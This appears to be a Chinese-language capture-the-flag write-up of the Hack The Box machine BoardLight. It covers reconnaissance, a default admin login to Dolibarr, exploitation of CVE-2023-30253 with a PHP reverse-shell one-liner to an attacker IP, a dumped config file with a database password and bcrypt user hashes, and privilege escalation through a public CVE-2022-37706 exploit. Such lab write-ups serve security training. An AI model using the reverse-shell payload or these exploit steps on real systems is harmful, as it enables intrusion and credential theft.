

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Basic Scan

### Nmap

```
nmap -A -O boardlight.htb
```


开放端口：`22、80`

Server：`Apache 2.4.41 (Ubuntu)`

### Dirsearch

```
dirsearch  -u boardlight.htb -t 50
```


### Subdomain Fuzzing


在页尾发现一个：`Board.htb`

修改 `/etc/hosts`


```
ffuf -w main.txt -u http://board.htb -H "Host:FUZZ.board.htb" -ac
```


获得子域名：`crm`

并且更新 `/etc/hosts`

## Weak Auth

进入`crm.board.htb`


用户名密码：`admin`，`admin`


## CVE-2023-30253

**Github**：[dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253](https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253)


添加站点以及页面


尝试修改源码，回显成功


```
<?pHp exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.16.8/100 0>&1'"); ?>
```


拿到shell


这里使用python脚本来简化。


上传`linpeas.sh` ，并且执行



发现存在`3306`端口，并且在`conf`里找到登陆密码


```
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
```

查询`user`表


格式化一下

```
| rowid | entity | ref_employee | ref_ext | admin | employee | fk_establishment | datec               | tms                 | fk_user_creat | fk_user_modif | login    | pass_encoding | pass_crypted                                                                                       | pass_temp | api_key | gender | civility | lastname   | firstname | address | zip  | town | fk_state | fk_country | birth | birth_place | job | office_phone | office_fax | user_mobile | personal_mobile | email | personal_email | signature | socialnetworks | fk_soc | fk_socpeople | fk_member | fk_user | fk_user_expense_validator | fk_user_holiday_validator | idpers1 | idpers2 | idpers3 | note_public | note_private | model_pdf | datelastlogin       | datepreviouslogin    | datelastpassvalidation | datestartvalidity | dateendvalidity | iplastlogin   | ippreviouslogin | egroupware_id | ldap_sid | openid | statut | photo | lang | color | barcode | fk_barcode_type | accountancy_code | nb_holiday | thm | tjm | salary | salaryextra | dateemployment     | dateemploymentend   | weeklyhours | import_key | default_range | default_c_exp_tax_cat | national_registration_number | fk_warehouse |
|-------|--------|--------------|---------|-------|----------|------------------|---------------------|---------------------|---------------|---------------|----------|---------------|----------------------------------------------------------------------------------------------------|------------|---------|--------|----------|------------|-----------|---------|------|-------|----------|------------|-------|-------------|-----|--------------|------------|-------------|-----------------|-------|----------------|-----------|----------------|---------|--------------|---------|---------|---------------------------|---------------------------|---------|---------|---------|-------------|--------------|-----------|---------------------|----------------------|-----------------------|-------------------|-----------------|--------------|-----------------|---------------|----------|--------|--------|-------|-------|---------|----------------|------------------|-------------|-----|-----|---------|--------------|-------------------|---------------------|-------------|------------|---------------|----------------------|-------------------------------|--------------|
| 1     | 0      | NULL         | NULL    | 1     | 1        | 0                | 2024-05-13 13:21:56  | 2024-05-13 13:21:56  | NULL          | NULL          | dolibarr | NULL          | $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm                                       | NULL       | NULL    | NULL   | NULL     | SuperAdmin | NULL      | NULL    | NULL | NULL  | NULL     | NULL       | NULL  | NULL        | NULL| NULL         | NULL       | NULL        | NULL            | NULL  | NULL           | NULL      | NULL           | NULL    | NULL         | NULL    | NULL   | NULL                      | NULL                      | NULL    | NULL    | NULL    | NULL        | NULL         | NULL      | 2024-05-15 09:57:04 | 2024-05-13 23:23:59  | NULL                  | NULL              | NULL            | 10.10.14.31  | 10.10.14.41     | NULL          | NULL     | NULL   | 1      | NULL  | NULL  | NULL    | NULL           | NULL             | NULL        | NULL| NULL| NULL    | NULL         | NULL               | NULL                | NULL        | NULL       | NULL          | NULL                 | NULL                          | NULL         |
| 2     | 1      | NULL         | NULL    | 0     | 1        | 0                | 2024-05-13 13:24:01  | 2024-05-15 09:58:40  | NULL          | NULL          | admin    | NULL          | $2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96                                       | yr6V3pXd9QEI | NULL    | NULL   | NULL     | admin      | NULL      | NULL    | NULL | NULL  | NULL     | NULL       | NULL  | NULL        | NULL| NULL         | NULL       | NULL        | NULL            | NULL  | NULL           | NULL      | NULL           | NULL    | NULL         | NULL    | NULL   | NULL                      | NULL                      | NULL    | NULL    | NULL    | NULL        | NULL         | NULL      | 2024-09-03 20:37:39 | 2024-09-03 20:04:27  | NULL                  | NULL              | NULL            | 10.10.16.8   | 10.10.16.24     | NULL          | NULL     | NULL   | 1      | NULL  | NULL  | NULL    | NULL           | NULL             | NULL        | NULL| NULL| NULL    | NULL         | NULL               | NULL                | NULL        | NULL       | NULL          | NULL                 | NULL                          | NULL         |
```

这里我使用`hashcat`爆破失败，尝试将mysql的密码作为ssh的密码登录成功，并且得到`user.txt`。


`sudo -l` ，并没有特殊权限的文件。

## CVE-2022-37706

Github：[MaherAzzouzi/CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)

在`Files with Interesting Permissions` ，里发现一个`enlightenment`的东西


将`exploit.sh` ，下载下来执行，获取到root权限。


## Summary

端口扫描、子域名扫描、目录扫描是标准的前置过程。

针对网站细节信息进行搜集获取CVE。

Linpeas暴露出的特殊权限的文件。

Hashcat不一定能够爆破出正确的明文。
